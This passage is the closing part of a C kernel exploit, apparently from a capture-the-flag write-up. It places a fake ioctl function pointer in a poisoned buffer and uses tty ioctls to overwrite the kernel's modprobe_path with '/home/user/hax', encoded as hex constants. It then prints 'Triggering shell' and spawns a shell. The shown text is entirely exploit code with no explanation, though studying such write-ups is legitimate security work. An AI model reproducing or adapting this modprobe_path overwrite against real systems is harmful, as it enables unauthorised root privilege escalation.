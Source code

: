     // fake ioctl fp
    p_buf[0x64 + 12] = gadget;

    create(fd, poisoned, 0x3ff, 0x3ff);

    ioctl(tty_fds[0], 0x6d6f682f, modeprobe_path);
    ioctl(tty_fds[0], 0x73752f65, modeprobe_path + 4);
    ioctl(tty_fds[0], 0x682f7265, modeprobe_path + 8);
    ioctl(tty_fds[0], 0x007861, modeprobe_path + 12);

    puts("Triggering shell");

    shell();
}
{% endhighlight %}
